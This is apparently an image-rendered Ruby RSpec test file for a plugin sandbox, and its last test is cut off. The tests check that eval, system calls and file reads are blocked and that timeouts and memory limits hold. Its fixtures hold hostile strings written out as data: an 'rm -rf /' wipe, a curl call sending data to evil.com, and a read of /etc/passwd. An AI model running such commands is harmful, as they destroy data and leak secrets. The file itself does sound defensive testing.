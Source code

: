 ```ruby
# spec/security/plugin_sandbox_spec.rb
RSpec.describe NumberAnalyzer::PluginSandbox do
  describe "Method Interception" do
    let(:sandbox) { described_class.new(security_level: :strict) }
    
    describe "危険なメソッドのブロック" do
      it "evalを防ぐ" do
        malicious_code = 'eval("system(\'rm -rf /\')")'
        
        expect {
          sandbox.execute_plugin(malicious_code)
        }.to raise_error(NumberAnalyzer::PluginSecurityError, /eval.*prohibited/)
      end
      
      it "systemコマンドを防ぐ" do
        malicious_code = 'system("curl http://evil.com/steal-data")'
        
        expect {
          sandbox.execute_plugin(malicious_code)
        }.to raise_error(NumberAnalyzer::PluginSecurityError, /system.*not allowed/)
      end
      
      it "ファイルアクセスを防ぐ" do
        malicious_code = 'File.read("/etc/passwd")'
        
        expect {
          sandbox.execute_plugin(malicious_code)
        }.to raise_error(NumberAnalyzer::PluginSecurityError, /File.*prohibited/)
      end
    end
    
    describe "許可されたメソッドの実行" do
      it "数学計算を許可する" do
        safe_code = '[1, 2, 3, 4, 5].sum'
        
        result = sandbox.execute_plugin(safe_code)
        expect(result).to eq(15)
      end
      
      it "配列操作を許可する" do
        safe_code = '[1, 2, 3, 4, 5].map { |x| x * 2 }'
        
        result = sandbox.execute_plugin(safe_code)
        expect(result).to eq([2, 4, 6, 8, 10])
      end
    end
  end
  
  describe "Resource Control" do
    let(:sandbox) { described_class.new(security_level: :strict) }
    
    it "無限ループを停止する" do
      infinite_loop = 'loop { }'
      
      expect {
        sandbox.execute_plugin(infinite_loop)
      }.to raise_error(NumberAnalyzer::PluginTimeoutError, /time limit exceeded/)
    end
    
    it "過大なメモリ使用を防ぐ" do
      memory_bomb = 'Array.new(1_000_000_000, "x" * 1000)'
      
      expect {
```